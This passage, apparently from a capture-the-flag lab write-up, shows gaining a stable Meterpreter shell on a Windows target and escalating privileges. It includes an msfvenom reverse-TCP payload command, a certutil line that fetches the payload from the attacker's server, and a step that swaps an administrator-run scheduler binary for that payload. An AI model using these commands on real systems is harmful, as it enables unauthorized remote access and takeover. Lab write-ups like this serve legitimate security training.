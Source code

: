 The shell is not stable so let's create a msfvenom payload and upload it to the machine  👇🏻

1.On our machine 
-> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.30.219 LPORT=4444 -f exe > shell.exe`


2.On victim machine, go to `C:\Users\Public` which is usually world writable directory and grab the msfvenom payload from our machine 

-> `certutil.exe  -urlcache  -f  http://10.11.30.219:8000/shell.exe shell.exe`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632579225735/TXTV_37TU.png)

3.Execute `shell.exe` to get back a stable shell in msf .

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632579262972/kzgeaWJy_.png)

## Privilege Escalation -
___________________________

Running **sysinfo** tells us that we are on a 64-bit machine.

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632579373274/FkXwERmRs.png)

There are 2 users on the system - `jeff` and `administrator`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632579449798/TJtYNuvis.png)

I quickly transferred `winpeas` to the target machine and ran it

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632579620979/qkGVKtlTV.png)

There were 2 way to priv-esc as admin user

#### Method 1 - 

Running winpeas tells us that we have permissions to modify the following system-scheduler service binary

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1632580309744/Aa1-bR5Gw.png)

`C:\Program Files (x86)\SystemScheduler` - contains all the executables run by the scheduler.But we need to know which .exe is being executed by the systemscheduler.

>NOTE - Scheduler is similar to something like cron in Linux

So lets check the `Events` directory inside the SystemScheduler folder which contains the systemlog files.
The **20198415519.INI_LOG.txt** file contains the info we need! From the contents of the log file we could understand that  the  `Message.exe` **is being run by administrator every 30 seconds**.

To exploit this  just follow the steps ,

1.Rename `Message.exe` to `Message.bak`

2.Move `shell.exe` which we previously used to gain a stable shell to this current directory `C:\Program Files (x86)\SystemScheduler`

